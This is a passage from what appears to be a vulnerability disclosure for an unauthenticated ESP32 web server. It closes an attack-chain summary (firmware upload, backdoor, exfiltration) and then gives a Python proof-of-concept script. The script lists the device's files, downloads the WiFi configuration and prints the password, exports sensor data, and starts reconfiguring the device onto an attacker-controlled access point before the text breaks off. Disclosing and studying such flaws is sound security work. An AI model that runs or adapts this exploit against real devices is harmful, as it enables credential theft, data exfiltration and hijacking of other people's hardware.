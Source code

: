 ```
[Malicious firmware uploaded and executed!]

Step 6: Device Compromised
──────────────────────────
- Backdoor established
- Network access maintained
- Lateral movement possible
- Data exfiltration ongoing

RESULT: Complete system compromise in < 5 minutes
```

### Proof of Concept

**Python Script to Demonstrate Full Access:**

```python
import requests
import json

ESP32_IP = "192.168.1.100"
BASE_URL = f"http://{ESP32_IP}:82"

def exploit_unauth_access():
    print("[*] Exploiting unauthenticated ESP32 web server")
    
    # 1. Access main dashboard
    print("\n[+] Step 1: Accessing main dashboard")
    r = requests.get(f"{BASE_URL}/")
    if r.status_code == 200:
        print("    [✓] Full access to dashboard - No auth required!")
    
    # 2. List all files
    print("\n[+] Step 2: Listing filesystem")
    r = requests.get(f"{BASE_URL}/list-files")
    files = r.json().get('files', [])
    print(f"    [✓] Found {len(files)} files:")
    for f in files:
        print(f"        - {f['name']} ({f['size']} bytes)")
    
    # 3. Download WiFi configuration
    print("\n[+] Step 3: Stealing WiFi credentials")
    r = requests.get(f"{BASE_URL}/download?file=/wifi_config.json")
    if r.status_code == 200:
        config = r.json()
        print(f"    [✓] WiFi SSID: {config.get('ssid')}")
        print(f"    [✓] WiFi Password: {config.get('password')}")
    
    # 4. Export all sensor data
    print("\n[+] Step 4: Exporting all sensor data")
    r = requests.get(f"{BASE_URL}/export-data")
    if r.status_code == 200:
        data_lines = r.text.split('\n')
        print(f"    [✓] Exported {len(data_lines)} sensor readings")
    
    # 5. Change WiFi to attacker-controlled AP
    print("\n[+] Step 5: Hijacking WiFi connection")
    payload = {
        "ssid": "ATTACKER_AP",
        "password": "attacker123"
    }
    r = requests.post(
        f"{BASE_URL}/connectivity",
        headers={'Content-Type': 'application/json'},
```